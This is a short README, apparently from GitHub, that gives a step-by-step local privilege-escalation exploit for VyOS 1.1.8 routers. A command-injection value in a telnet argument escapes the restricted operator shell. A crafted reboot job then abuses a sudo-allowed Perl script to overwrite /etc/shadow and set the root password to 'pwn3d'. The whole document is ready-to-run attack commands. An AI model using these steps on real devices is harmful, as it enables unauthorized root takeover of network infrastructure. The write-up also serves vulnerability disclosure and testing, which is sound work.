 # VyOS-Get-Root
Getting root on VyOS from an operator CLI

If you have operator-level console access on VyOS (or possibly another OS derived from Vyatta - Brocade vRouter or Ubiquiti EdgeOS) then you can use this technique to gain console access as root.  This has been tested on VyOS version 1.1.8.

The operator mode is already known to be insecure in other ways, so the account is normally not available.  However some administrators have manually added operator accounts.  Here is an example of how an operator account could be created.

```
configure
set system login user operator level operator
set system login user operator authentication plaintext-password Operator123
commit
save
```

Once logged in as `operator` with the password of `Operator123` in this example, you will be dropped into a restricted shell `/opt/vyatta/bin/restricted-shell` that normally does not have configuration write capabilities or access to the bash shell and commands.

Execute the following command to escape out of the `restricted-shell` and acquire a normal `bash` shell:<br />
`telnet "127.0.0.1;bash"`

See that you can now execute bash commands:<br />
`id`<br />
`sudo -l`

You should notice from the above command that an operator has limited sudo capabilities to scripts located under `/opt/vyatta/bin/sudo-users/`

You can exploit the `vyatta-reboot.pl` script to change the root password:<br />
``echo '`ROOTPW=$(openssl passwd -1 pwn3d); echo "root:$ROOTPW:17481:0:99999:7:::" > /tmp/shadow; tail -n +2 /etc/shadow >> /tmp/shadow; mv /tmp/shadow /etc/shadow; chmod 640 /etc/shadow; chown root:shadow /etc/shadow`' > /var/run/reboot.job``

`sudo /opt/vyatta/bin/sudo-users/vyatta-reboot.pl --action show_reboot`

`rm /var/run/reboot.job`

Now exit the CLI as the operator account and login as `root` with a password of `pwn3d`.

